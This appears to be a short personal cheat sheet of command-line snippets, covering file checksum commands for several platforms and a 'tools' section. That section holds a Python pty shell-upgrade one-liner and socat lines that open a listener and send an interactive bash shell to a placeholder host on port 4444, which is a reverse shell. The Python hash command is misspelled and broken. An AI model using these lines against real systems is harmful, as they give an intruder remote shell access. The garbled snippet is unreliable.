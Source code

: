 # python document
    [docs](https://docs.python.org/3/)
    pypi, tox

# data integrity
    ```
    python -c "import hashlib, sys;pritn hashlib.sha1(open(sys.argv[1], 'rb').read()).hexdigest()"  file

    # linux bash
    echo "b3c0acde4e02b6feb3602d4c037100222caa538f  merge_sort.o" | sha1sum -c -

    # windows powershell
    Get-FileHash -Algorithm SHA1 .\start_up.bat

    # windows cmd
    certutil -hashfile file SHA1
    fciv.exe # file checksum and integrity verifier
    ```

# tools
    - pty
    ```
    python -c 'import pty;  pty.spawn("/bin/bash")

    socat file:'tty',raw,echo=0 tcp-listen:4444

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:xx.xx.xx.xx:4444
    ```